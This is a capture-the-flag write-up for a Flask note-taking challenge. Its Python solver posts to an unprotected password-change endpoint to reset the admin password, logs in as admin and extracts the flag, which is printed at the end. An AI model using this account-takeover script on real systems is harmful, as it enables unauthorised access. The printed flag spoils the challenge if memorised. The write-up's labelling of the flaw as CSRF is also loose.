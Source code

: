 # Secret Notes CSRF Exploitation

## Challenge Overview

This challenge involved a Flask-based note-taking application with user authentication and admin functionality. The goal was to exploit a CSRF (Cross-Site Request Forgery) vulnerability to gain admin access and retrieve the flag stored in an admin note.

## Vulnerability Analysis

The application had several security weaknesses:

1. **CSRF in Password Change Functionality**: The `/api/change_password` endpoint lacked CSRF protection, allowing unauthorized password changes
2. **No Current Password Requirement**: The password change didn't require the current password for verification
3. **Admin Credentials Hardcoded**: The admin account was seeded with predictable credentials

## Exploitation Steps

To solve this challenge I've created a python script to automate the process:
```python
#!/usr/bin/env python3
import requests
import time
import sys
import re

class CTFSolver:
    def __init__(self, base_url="http://web-ctf.cyberspace.ma:5501/", verbose=True):
        self.base_url = base_url
        self.session = requests.Session()
        self.verbose = verbose
        # Flag regex pattern for validation
        self.flag_pattern = re.compile(r'CSP{[A-Za-z0-9_]+}')
    
    def log(self, message):
        if self.verbose:
            print(f"[*] {message}")
    
    def register_account(self, username, password):
        self.log(f"Registering new account: {username}")
        data = {
            "username": username,
            "password": password
        }
        response = self.session.post(f"{self.base_url}/register", data=data)
        return response.status_code == 200 and "Registration successful" in response.text
    
    def login(self, username, password):
        self.log(f"Logging in as: {username}")
        data = {
            "username": username,
            "password": password
        }
        response = self.session.post(f"{self.base_url}/login", data=data)
        return response.status_code == 200 and "Login successful" in response.text
    
    def exploit_csrf(self, target_username, new_password):
        self.log(f"Exploiting CSRF vulnerability to change {target_username}'s password")
        data = {
            "username": target_username,
            "new_password": new_password
        }
        response = self.session.post(f"{self.base_url}/api/change_password", data=data)
        
        if response.status_code == 200 and response.json().get('success'):
            self.log(f"✅ Password change successful for {target_username}!")
            return True
        else:
            self.log(f"❌ Password change failed: {response.text}")
            return False
    
    def get_admin_notes(self):
        self.log("Accessing admin notes page")
        response = self.session.get(f"{self.base_url}/admin/notes")
        
        if response.status_code != 200 or "Admin Panel" not in response.text:
            self.log("❌ Failed to access admin notes page")
            return None
        
        match = self.flag_pattern.search(response.text)
        if match:
            flag = match.group(0)
            self.log(f"🚩 Found flag: {flag}")
            return flag
        else:
            self.log("❌ Could not find flag in admin notes")
            return None
    
    def solve(self):
        print("🚀 Starting automated solver for Secret Notes CSRF Challenge")
        print("=" * 60)
        
        if not self.register_account("attacker", "attacker123"):
            print("❌ Failed to register attacker account")
            return False
        
        self.session.get(f"{self.base_url}/logout")
        
        if not self.exploit_csrf("admin", "hacked"):
            print("❌ CSRF exploitation failed")
            return False
        
        if not self.login("admin", "hacked"):
            print("❌ Failed to login as admin")
            return False
        
        flag = self.get_admin_notes()
        
        if flag:
            print("=" * 60)
            print(f"🎉 Challenge solved! Flag: {flag}")
            return True
        else:
            print("=" * 60)
            print("❌ Failed to solve the challenge")
            return False

def main():
    # Check for custom base URL
    base_url = sys.argv[1] if len(sys.argv) > 1 else "http://web-ctf.cyberspace.ma:5501/"
    
    solver = CTFSolver(base_url=base_url)
    solver.solve()

if __name__ == "__main__":
    main()
```
### Step 1: Registration
The solver first registered a new account ("attacker") to establish a valid session:
```python
def register_account(self, username, password):
    self.log(f"Registering new account: {username}")
    data = {
        "username": username,
        "password": password
    }
    response = self.session.post(f"{self.base_url}/register", data=data)
```

### Step 2: CSRF Exploitation
The solver then exploited the CSRF vulnerability to change the admin's password without needing their current credentials:
```python
def exploit_csrf(self, target_username, new_password):
    self.log(f"Exploiting CSRF vulnerability to change {target_username}'s password")
    data = {
        "username": target_username,
        "new_password": new_password
    }
    response = self.session.post(f"{self.base_url}/api/change_password", data=data)
```

### Step 3: Admin Login
With the admin password changed, the solver logged in as admin:
```python
def login(self, username, password):
    self.log(f"Logging in as: {username}")
    data = {
        "username": username,
        "password": password
    }
    response = self.session.post(f"{self.base_url}/login", data=data)
```

### Step 4: Flag Retrieval
Finally, the solver accessed the admin notes page to retrieve the flag:
```python
def get_admin_notes(self):
    self.log("Accessing admin notes page")
    response = self.session.get(f"{self.base_url}/admin/notes")
    match = self.flag_pattern.search(response.text)
```

## Technical Details

The exploit worked because:
1. The password change endpoint didn't verify the request origin
2. The same session could be used to make requests on behalf of other users
3. No CSRF tokens were required for state-changing operations

The flag is: `CSP{Cl13nt_S1d3_Ar3_1ntr3sst1ng_P4rt_0f_W3b_P3nt3st1ng}`
